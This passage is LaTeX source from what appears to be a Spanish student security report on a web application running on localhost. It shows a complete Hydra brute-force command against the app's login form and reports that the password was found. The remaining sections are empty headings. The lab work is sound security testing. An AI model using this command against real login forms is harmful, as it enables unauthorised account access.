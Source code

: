 \documentclass{report}
\begin{document}
                \clearpage
                Con el diccionario creado, vamos a realizar el ataque de fuerza bruta.
                Para ello, como he comentado, usaremos la herramienta Hydra.
                \begin{center}
                    \texttt{hydra -l ImanolMM -P imanol.txt localhost -s 81 http-post-form "/submit.php:nombre=\&telefono=\&dni=\&email=\&nacimiento=\&\\usuario=\^USER\^ \&passwd=\^PASS\^ \&tiporegistro=signin:Usuario o contraseña incorrecta"}
                \end{center}
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.3.png}
                    \caption{Ataque de fuerza bruta}
                \end{figure}
                Como podemos ver, el ataque ha sido exitoso y hemos obtenido la contraseña del usuario.
                Obviamente, este ataque ha sido muy sencillo ya que se utiliza contraseñas muy debiles pero nos sirve para ver que es posible realizar este tipo de ataques.
                \clearpage
        \section{Componentes vulnerables y obsoletos}
            \subsection{Vulnerabilidades mediante MF}
            \clearpage
        \section{Fallos de identificación y autenticación}
            \subsection{Invalidación de sesiones}
            \clearpage
\end{document}
